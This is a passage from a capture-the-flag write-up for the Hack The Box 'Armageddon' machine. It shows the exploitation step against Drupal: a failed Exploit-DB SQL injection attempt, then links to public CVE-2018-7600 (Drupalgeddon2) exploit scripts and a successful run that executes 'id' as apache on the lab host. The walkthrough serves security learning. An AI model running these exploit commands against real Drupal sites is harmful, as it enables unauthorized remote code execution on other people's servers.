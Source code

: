 # exploitation

Based on my enumeration and the title of the box, I was guessing that it was related to Drupalgeddon.

There were two ways I got RCE. One was through a [python script](https://github.com/pimps/CVE-2018-7600) that allowed command execution one at a time, and a [ruby script](https://github.com/dreadlocked/Drupalgeddon2) that spawned an interactive shell. I will talk about the ruby script later, since I thought it did not work when I tried it initially.

## drupal SQL injection

[https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992 ) did not work.

```sh
[tyco㉿4YE: ~/htb/armageddon]$ python 34992.py -t http://10.10.10.233 -u admin -p hehe 

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

								...

[X] NOT Vulnerable :(
```

## CVE-2018-7600: unauthenticated RCE

RCE worked! However, I could only run one commands at a time.

### system enumeration

`id` command to show username and groups that the user is in:

```sh
[tyco㉿4YE: ~/htb/armageddon/CVE-2018-7600]$ python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c id

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-HI3tCqcRxYMPU9PjIrnTYgFIgboG-2rZroSL6prkiQ8
[*] Triggering exploit to execute: id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
